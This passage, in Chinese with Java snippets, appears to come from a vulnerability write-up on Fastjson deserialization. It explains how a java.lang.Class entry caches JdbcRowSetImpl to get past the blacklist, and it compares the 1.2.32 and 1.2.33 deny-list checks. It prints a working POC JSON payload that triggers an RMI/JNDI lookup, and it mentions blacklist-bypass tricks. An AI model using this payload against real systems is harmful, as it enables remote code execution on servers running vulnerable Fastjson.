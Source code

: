 ```java

if (objVal == null) {
  strVal = null;
} else if (objVal instanceof String) {
  strVal = (String) objVal;
}
```

可以看到是解析val对应的值作为objVal，再将objVal强转为字符串确定的，由此有最终POC：

```java
String s =  "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/testobj\",\"autoCommit\":true}}";
```

值得注意的是这里反倒不能开启autoTypeSupport，因为开启的话会在判断是否位于mappings之前检测是否位于黑名单中，在不使用如加`L`加`[`等绕过方式的前提下是过不去黑名单检测的。

那为什么1.2.33版本及以后可以无视是否开启autoTypeSupport执行命令呢？来对比下1.2.32和1.2.33的黑名单校验方式：

```java
//1.2.32
if (autoTypeSupport || expectClass != null) {
  for (int i = 0; i < acceptList.length; ++i) {
    String accept = acceptList[i];
    if (className.startsWith(accept)) {
      return TypeUtils.loadClass(typeName, defaultClassLoader);
    }
  }
  //检查是否位于黑名单(注意这里是位于开启了autoTypeSupport的if语句中的)
  for (int i = 0; i < denyList.length; ++i) {
    String deny = denyList[i];
    if (className.startsWith(deny)) {
      throw new JSONException("autoType is not support. " + typeName);
    }
  }
}

//1.2.33
if (autoTypeSupport || expectClass != null) {
  for (int i = 0; i < acceptList.length; ++i) {
    String accept = acceptList[i];
    if (className.startsWith(accept)) {
      return TypeUtils.loadClass(typeName, defaultClassLoader);
    }
  }

  for (int i = 0; i < denyList.length; ++i) {
    String deny = denyList[i];
    if (className.startsWith(deny) && TypeUtils.getClassFromMapping(typeName) == null) {
      throw new JSONException("autoType is not support. " + typeName);
    }
  }
}
```
